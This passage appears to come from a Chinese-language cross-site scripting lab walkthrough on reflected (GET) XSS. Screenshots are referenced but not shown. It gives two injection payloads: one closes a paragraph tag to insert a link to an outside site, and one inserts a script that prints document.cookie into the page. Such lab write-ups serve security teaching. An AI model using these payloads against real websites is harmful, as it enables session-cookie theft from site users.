 
```bash
</p><a href="https://nav3.cn/side?page=6&id=0&_=1726107142616">点我导航</a><p>
```

​![image](assets/image-20240912111230-ipgwihp.png)​

### 反射型(GET)

直接输入`</p>`标签被闭合

​![image](assets/image-20240912193453-3rhk3hg.png)​

payload：

```bash
</p><script>document.write('<p>'+document.cookie+'</p>');</script>
```

​![image](assets/image-20240912193701-lmupydt.png)​

